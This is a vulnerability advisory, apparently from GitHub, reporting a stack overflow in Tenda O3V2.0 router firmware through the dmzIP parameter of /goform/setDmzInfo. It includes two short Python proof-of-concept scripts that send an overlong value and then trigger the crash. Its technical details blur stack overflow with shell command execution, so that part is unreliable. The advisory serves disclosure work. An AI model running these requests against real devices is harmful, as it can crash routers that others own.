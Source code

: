 ## Summary

A stack overflow vulnerability exists in the Tenda O3V2.0 V1.0.0.10(2478) firmware. The `dmzIP` POST parameter accepted by `/goform/setDmzInfo` is written to the configuration key `wan1.dmzip` or `wan5.dmzip`  via `SetValue` without length or content validation. The stored value is later read (via `/goform/getDmzInfo`) and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & versions

- **Vendor:** Tenda
- **Product:** O3V2.0 (firmware)
- **Affected version:** V1.0.0.10(2478)
- **Download:** https://www.tenda.com.cn/download/detail-2832.html

## Vulnerability type

- **Type**:Stack overflow
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `SetValue` and `GetValue` functions that handle`wan1.dmzip` or `wan5.dmzip`.

## Technical details

- The `setDmzInfo` endpoint accepts a POST parameter `dmzIP` and calls `SetValue("wan1.dmzip", V7)` or ` SetValue("wan5.dmzip", V7)` without enforcing a maximum length or sanitizing shell metacharacters.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_121650.png)

- The `getDmzInfo` endpoint reads `dmzIP` via `GetValue("wan1.dmzip", v11)` or `GetValue("wan5.dmzip", v11)` and passes it into a shell-invoking context (or a system call) without sanitization, making stored payloads executed when the endpoint is processed.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_121458.png)

Both `SetValue` and `GetValue` lack proper validation of the value contents and length.

## Proof of Concept

1. **Store a malicious `wan1.dmzip` or `wan5.dmzip` value**

```python
# poc_set.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setDmzInfo"
payload =  b"a"*1000

data = {"dmzIP":payload}
response = requests.post(url, data=data)
print(response.text)
```

2. **Trigger the vulnerable behavior**

```python
# poc_get.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getDmzInfo"
response = requests.post(url)
print(response.text)
```

3. **Attack result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_104719.png)

